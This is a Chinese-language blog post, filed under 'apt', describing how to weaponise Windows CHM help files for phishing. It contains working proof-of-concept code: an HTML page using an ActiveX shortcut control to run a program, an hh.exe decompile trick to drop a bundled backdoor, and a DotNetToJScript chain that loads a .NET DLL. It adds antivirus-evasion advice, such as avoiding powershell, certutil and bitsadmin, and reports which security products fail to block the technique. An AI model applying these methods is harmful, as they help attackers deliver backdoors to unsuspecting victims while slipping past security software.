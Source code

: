```yaml
---
layout: post
title: "使用CHM文件进行钓鱼"
date: 2020-01-30 17:56:19 +0800
categories: apt
---
```

进行钓鱼选择合适的payload非常重要，使用一些容易让人放松警惕的文件格式可以大大提高钓鱼的成功率。CHM是微软推出的基于HTML的帮助文件系统，被 IE 浏览器支持的JavaScript, VBScript, ActiveX,等，CHM同样支持。因此使用CHM作为钓鱼的payload非常合适。本文总结了两种基于CHM执行命令的方式。

# 使用com控件命令执行

根据@ithurricanept的twitter

![](https://raw.githubusercontent.com/CitrusIce/blog_pic/master/20200130165102.png)

<https://twitter.com/ithurricanept/status/534993743196090368>

使用了js调用com控件执行命令

源码如下：

```html
<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
command exec 
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=',calc.exe'>
 <PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```

## POC

使用HTML Help Workshop

<http://microsoft.com/en-us/download/details.aspx?id=21138>

创建一个新的project，添加文件后进行编译

![](https://raw.githubusercontent.com/CitrusIce/blog_pic/master/1580212823088.png)


测试：


![](https://raw.githubusercontent.com/CitrusIce/blog_pic/master/1580212859994.png)


## 利用

实际测试的时候注意到了以下几点：

- 执行命令的时候注意传入的参数与程序名需要用逗号隔开，参数与参数之间不需要。

- 考虑到进行敏感操作会导致杀软提示，因此尽量避免使用powershell、bitsadmin、certutil、cscript等。
- 通过cmd执行命令也属于敏感操作，因此使用多个控件依次执行命令。

在搜索的过程中发现.chm文件的默认程序hh.exe具有decompile的功能，可以将打包进chm的文件释放出来

```
HH.EXE -decompile D:/xTemp/decompile-folder C:/xTemp/XMLconvert.chm
```

因此可以将后门程序一起打包进chm文件中，运行时调用hh.exe释放chm中的后门程序再执行。

测试：

使用360测试的时候效果不太理想，在联网情况下使用hh.exe decompile会被拦截，断网情况下没有问题。

使用火绒测试没有任何拦截。

# 使用js加载.net

既然可以利用chm执行js，那为什么不内嵌.net和dll呢？

<https://github.com/tyranid/DotNetToJScript>

## POC

编写一个.net dll

```csharp
namespace ClassLibrary1
{

    public class Class1
    {
        public Class1()
        {
            /* Start notepad */
			Process.Start("notepad.exe");
        }
    }
}
```

生成js脚本

```
DotNetToJScript.exe -o 1.js ClassLibrary1.dll -c ClassLibrary1.Class1
```

执行js脚本


![](https://raw.githubusercontent.com/CitrusIce/blog_pic/master/1580376712378.png)


## 利用

本来想直接加载shellcode上线，但是有问题，因为对.net不了解所以只能放弃了。。。

最后还是下载后门程序然后执行

测试：

美中不足的是使用js加载.net会有启用activeX控件的警告，必须点“是”之后才能加载。

360火绒均不拦截

![](https://raw.githubusercontent.com/CitrusIce/blog_pic/master/20200130173719.png)
